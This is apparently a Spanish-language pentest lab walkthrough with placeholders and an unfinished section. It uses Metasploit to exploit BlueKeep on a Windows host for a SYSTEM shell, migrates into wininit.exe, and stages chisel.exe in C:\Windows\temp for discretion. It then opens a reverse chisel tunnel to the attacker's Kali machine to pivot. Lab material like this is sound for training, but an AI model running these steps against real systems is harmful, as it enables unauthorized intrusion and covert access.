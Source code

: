 # Infraestructura objetivo

La infraestructura con la que estaremos trabajando será la siguiente:

![alt text](image-1.png)

Nosotros partiremos de una máquina Kali ubicada en la parte izquierda del esquema, e iremos ganando acceso a las máquinas a la par de ir creando una infraestructura que nos permita operar y tomar control de la red.

## Pruebas de penetración


### Escaneo con Nmap


Nmap se utiliza para escanear puertos y servicios abiertos en el sistema objetivo.


```bash
nmap -A -p- -T4 <target-ip>
```

Este comando realiza un escaneo completo en todos los puertos y utiliza opciones de temporización agresivas.

Detectamos un puerto en estado *wrapped*, por lo que vamos a comprobar manualmente que funciona

## Estado del puerto con Netcat

```bash
nc -zv <target-ip> <port>
```

Verificamos que efectivamente el puerto está abierto

<<capturita>>

## Metasploit - Comprobación MS12-020

El módulo de Metasploit `auxiliary/scanner/rdp/ms12_020_check` se puede utilizar para comprobar si el sistema objetivo es vulnerable al CVE-2012-0002.

```bash
msfconsole
use auxiliary/scanner/rdp/ms12_020_check
set RHOSTS <target-ip>
run
```

Podemos ver en el resultado del módulo que efectivamente la máquina es vulnerable:

<<capturita>>

De igual manera, verificamos para la vulnerabilidad **BlueKeep CVE-2019-0708**

```bash
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS <target-ip>
run
```

Y comprobamos que también es vulnerable, por lo que vamos a utilizar el módulo `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` para explotar la vulnerabilidad:

```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS <target-ip>
set TARGET 1
run
```

Como resultado de la explotación, obtenemos una shell en el sistema y además con máximos privilegios

<<capturita que muestre NT AUTHORITY SYSTEM>>

Para obtener una mayor estabilidad en nuestra shell, ya que es posible que el proceso asociado se destruya debido a la naturaleza de la vulnerabilidad, vamos a migrar nuestra shell preferiblemente a un proceso de sistema. En este caso hemos conseguido migrar al proceso de inicialización de windows "wininit.exe"

```bash
meterpreter> ps
meterpreter> migrate <wininit-pid>
```

Con esto hecho, ahora vamos a dejar esta shell en segundo plano con el comando `background` porque vamos a realizar una técnica de persistencia en el objetivo. 

Para ello utilizaremos el módulo de metasploit `local/persistence_service` 

# AÑADIR EL COMO HACER PERSISTENCIA AQUI

## Subida de Chisel al objetivo

Aprovechando nuestra meterpreter, vamos a utilizar su comando `upload` para subir un archivo ejecutable de *chisel* una utilidad para crear conexiones bidireccionales que nos permitirá pivotar a la siguiente máquina en la red objetivo.

```bash
upload chisel.exe /temp
```

Lo subiremos al directorio `C:\Windows\temp` debido a que es un directorio más discreto para realizar este tipo de operaciones. Con eso subido, haremos lo siguiente:

En la máquina Kali (será nuestro server chisel):

```bash
chisel server -p <port> --reverse &
```

En la máquina objetivo (será nuestro server cliente chisel):

```bash
chisel client <kali-ip>:<port> R:<port-to-forward>:<target-ip>:<target-port>
```

Este comando inicia un servidor Chisel en la máquina Kali y configura un enrutamiento de puertos inverso desde el sistema objetivo a la máquina Kali.

Por favor, tenga en cuenta que los comandos y técnicas mencionados son para fines educativos y éticos solamente. Siempre obtenga la autorización adecuada antes de realizar cualquier actividad de pruebas de penetración.

Habiendo realizado esto, tendremos el primer túnel de conexión que nos permitirá usar las herramientas de nuestra máquina Kali en el **PC 1**

![alt text](./img/image-2.png)

Esto nos permitirá usar la máquina **PC 1** como proxy a través del cuál enviar nuestras herramientas de Kali al **PC 2** a través de *proxychains*

